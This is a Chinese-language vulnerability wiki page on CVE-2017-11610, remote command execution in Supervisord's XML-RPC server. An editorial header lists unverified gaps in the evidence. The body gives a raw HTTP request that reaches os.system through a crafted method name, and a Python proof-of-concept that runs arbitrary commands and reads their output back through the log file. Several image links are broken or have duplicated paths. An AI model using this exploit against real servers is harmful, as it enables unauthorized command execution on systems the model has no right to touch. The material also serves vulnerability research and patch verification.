


# （CVE-2017-11610）Supervisord 远程命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Branchfixed3.0.1/3.1.4/3.2.4/3.3.3 claimed;RPC reach/auth not described
- 证据范围：Same log-readback code and explanatory paragraph as42; adds versionrange

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Image links duplicated trailing paths
- Authentication requirement/service UID omitted
- Merge version matrix into better-sourced42 after upstream verification
- Verify3.0.1 branch cutoff rather than treating before3.0.1 as universal vulnerable range

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC
server是其中的一个XML-RPC服务器。
Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

二、漏洞影响
------------

supervisor
3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

三、复现过程
------------

直接执行任意命令：

    POST /RPC2 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213

    <?xml version="1.0"?>
    <methodCall>
    <methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
    <params>
    <param>
    <string>touch /tmp/success</string>
    </param>
    </params>
    </methodCall>

Supervisord远程命令执行漏洞/media/rId24.png)

### 关于直接回显的POC

\@Ricter
在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC：直接贴出来吧：

    #!/usr/bin/env python3
    import xmlrpc.client
    import sys

    target = sys.argv[1]
    command = sys.argv[2]
    with xmlrpc.client.ServerProxy(target) as proxy:
        old = getattr(proxy, 'supervisor.readLog')(0,0)

        logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
        getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
        result = getattr(proxy, 'supervisor.readLog')(0,0)

        print(result[len(old):])

使用Python3执行并获取结果：`./poc.py "http://www.0-sec.org:9001/RPC2" "command"`：Supervisord远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/supervisor/CVE-2017-11610/
